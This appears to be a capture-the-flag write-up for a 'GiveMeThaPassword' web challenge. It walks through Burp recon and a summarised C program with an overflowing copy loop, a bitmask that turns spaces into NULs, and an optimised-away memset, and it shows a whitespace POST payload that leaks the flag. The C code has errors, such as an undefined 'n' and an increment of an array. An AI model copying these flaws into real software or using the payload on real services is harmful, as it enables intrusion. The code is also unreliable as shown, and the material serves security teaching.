 # WriteUP for the "GiveMeThaPassword" Challenge

## Recon
At first we receive a link to the challenge. 

Inspect it and we receive a blank page. Umm smells like we are going to use burp.

Use Burp proxy to inspect the GET request.

When we try to make the GET we receive a 400 Bad Request.

Since we don't have any more info, let's change to POST Request.

We do the POST and receive this:

```tcp
HTTP/1.1 200 OK
Content-Length: 41
Content-Type: text/plain; charset=utf-8
Date: Tue, 08 Dec 2020 12:46:26 GMT
Connection: close

Passwords must be at least 8 characters! 
```

Nice! :)

Sending a password with 8 characters:

```tcp
HTTP/1.1 200 OK
Content-Length: 64
Content-Type: text/plain; charset=utf-8
Date: Tue, 08 Dec 2020 12:48:49 GMT
Connection: close

Looks like you forgot your password! Your password is: AAAAAAAA
```

OK, now we know how the requets are working, let's check the code.

We can summarize the code in this lines

```c
void ctf(char *password, int print) {
	char buffer[256];
	int pwdlen = strlen(password);

	if (strlen(password) < 8) {
		printf("Passwords must be at least 8 characters!\n");
		return;
	}
	// passwords are case-insensitive
	//uppercase
	while (password) {
		//WARNING 1!
		*password &= ~0x20; //*password = *password & ~0x20; to uppercase
		password++;
	}
	//cpy
	while (*password) {
    //WARNING 2!
		*buffer = *password;
		buffer++;
		password++;
	}
	//email
	if (print){
		printf("Looks like you forgot your password! Your password is: ");
		for (int i = 0; i < n; i++) {
			printf("%c", password[i]);
		}
		printf("\n");
	}
	// Erase sensitive information!!
  	//WARNING 3!
	memset(buffer, ' ', 256);
}

int main(int argc, char *argv[]) {
	while (--argc) {
		char buffer[256] = {0};
		strcpy(buffer, argv[argc]);
		ctf(&buffer[0], argc == 1);
	}

	return 0;
}
```
As you can see in the code, I added 3 warnings, let's check it to see how we can retrive the password.

## Warning 1
```c
*password &= ~0x20;
```
This part makes the AND operation in the sixth bit so:

If we have an 'a' and we want to change to 'A' we do this:

```
a 		=	0110 0001
~0x20	=	1101 1111
    	 	---------
A 		=	0100 0001    
```
This type of bit manipulation is also pretty dangerous, mostly because of we can send NULL 
signals use a SPACE character:

```
' '		=	0010 0000
~0x20	=	1101 1111
    	 	---------
NULL	=	0000 0000    
```
Note for the future: "Send whitespaces, maybe i'll find something"

## Warning 2
```c
while (*password) {
*buffer = *password;
		buffer++;
		password++;
	}
```
This is another example of NOT to copy a variable, with this type of code I can write outside
the buffer (buffer overflow) and access other parts of the memory or even manipulate
the flow of the program; sending NULL signal for example, because the while will never
be true.

## Warning 3
```c
memset(buffer, ' ', 256);
```
This function is being optimized by the compiler, and it's not running. ¯\_(ツ)_/¯


## Exploit
With everything that we learned before we can clearly send this NULL signals and watch the
behaviour of the app.

```tcp
POST /password/remind HTTP/1.1
Host: xxx.es
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

                                                      
```   
Response:                                                
```tcp
HTTP/1.1 200 OK
Content-Length: 110
Content-Type: application/octet-stream
Date: Sun, 27 Dec 2020 19:51:19 GMT
Connection: close

Looks like you forgot your password! Your password is: FLAG[INSOVIETRUSSIAFLAGCAPTURESU]
``` 

That's all folks!